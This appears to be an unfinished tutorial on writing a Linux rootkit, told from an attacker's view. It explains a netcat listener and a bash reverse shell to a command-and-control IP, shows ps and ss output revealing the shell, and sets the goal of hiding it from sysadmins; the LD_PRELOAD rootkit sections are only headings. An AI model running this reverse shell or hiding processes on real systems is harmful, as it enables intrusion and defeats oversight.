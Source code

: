 # How to Write a Linux Rootkit

## 1. Prerequisites

### 1.1 Scenario

You are an attacker. You have pwned a system and established a reverse shell.

```
SETUP:
[PWNED-VM] ----reverse shell---> [C2-SERVER(35.196.145.50)]
```

#### 1.1.1 Reverse Shell

_Reverse Shell TLDR: Netcat opens a TCP socket, binds it to a port, and pipes all traffic directly between stdin/stdout/stderr and the socket_

> Note:
> 0 = stdin
> 1 = stdout
> 2 = stderr

- 1. Create a listener on C2-SERVER
  - `nc -l -p 7070`
    - `-l`: "listen" mode
    - `-p 7070`: binds TCP port 7070
- What this command does:
  - Netcat calls `socket(AF_INET, SOCK_STREAM, 0)`, `bind()` to `0.0.0.0:7070`, `listen()`, then `accept()` for the first inbound connection
  - Once a client connects, `nc` reads from it's stdin and writes to the socket, and vice versa
- 2. Create a reverse shell on PWNED_VM
  - `/bin/bash -i >& /dev/tcp/35.196.145.50/7070 0>&1`
    - `/bin/bash -i`: launch bash in interactive mode (bash expects a tty/interactive session with prompts, etc.)
    - `/dev/tcp/35.196.145.50/7070`: bash-specific feature; when a redirect targets `/dev/tcp/HOST/PORT`, bash itself opens a TCP socket to `HOST:PORT` and associates it with the file descriptor you're redirecting
    - `>&`: redirect both stdout and stderr to a file
      - semantically `n>&m` means make fd `n` refer to the same underlying object as fd `m`
      - `>`: redirect stdout (fd 1) to a file
    - `>& /dev/tcp...`: redirect both stdout and stderr from bash over the TCP connection
    - `0>&1`: takes fd 0 (stdin) and points it to same socket that fd 1 already points to
  - might have to wrap it in `bash -c`: `bash -c '/bin/bash -i >& /dev/tcp/35.196.145.50/7070 0>&1'`

### 1.2 Goals

When the sysadmin runs `ps -aux` and `ss -tulnp`, they should see not see any output related to the reverse shell

#### 1.2.1 Current Output

**`ps auxf`**

- `a`: show processes from all users that are attached to a terminal (not just your own)
- `u`: display output in user-oriented format (adds human-readable columns like `USER` (owner), `%CPU`, `%MEM`, etc.)
- `x`: include processes without a controlling terminal (TTY); daemons and background jobs ofen't don't have a TTY; without `x`, can miss background services, reverse shells detached from terminal
- `f`: show a process tree

```bash
# removed all irreleevant output
asritha@asritha:~$ ps auxf
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         813  0.0  0.2   6968  4608 tty1     Ss   18:00   0:00 /bin/login -p --
asritha      946  0.0  0.2   8652  5504 tty1     S    18:00   0:00  \_ -bash
asritha     1628  0.0  0.1   7340  3456 tty1     S    23:24   0:00      \_ bash -c bash -i >& /dev/tcp/35.196.145.50/7070 0>&1
asritha     1629  0.0  0.2   8660  5376 tty1     S+   23:24   0:00          \_ bash -i
```

**ss -tnp**

- `-t`: TCP
- `-p`: show process info
- `-n`: don't resolve names (show raw IP/port)

```bash
asritha@asritha:~$ sudo ss -tnp
State        Recv-Q        Send-Q               Local Address:Port                  Peer Address:Port         Process
ESTAB        0             0                      10.37.1.134:22                       10.37.1.1:56341         users:(("sshd",pid=1733,fd=4),("sshd",pid=1635,fd=4))
ESTAB        0             0                      10.37.1.134:40430                35.196.145.50:7070          users:(("bash",pid=1629,fd=2),("bash",pid=1629,fd=1),("bash",pid=1629,fd=0))

```

#### 1.2.2 `ps`

`which ps`
`file ps`

- everything in Linux is a file

#### 1.2.3 `ss`

`which ss`
`file ss`

### 1.3 Prerequisite Knowledge

#### 1.3.1 Kernelspace vs Userspace

## 2. Userspace Rootkits

### 2.1 `LD_PRELOAD`

- `strace ps`, `strace ss`
- `ldd ps`
- hook write syscall?
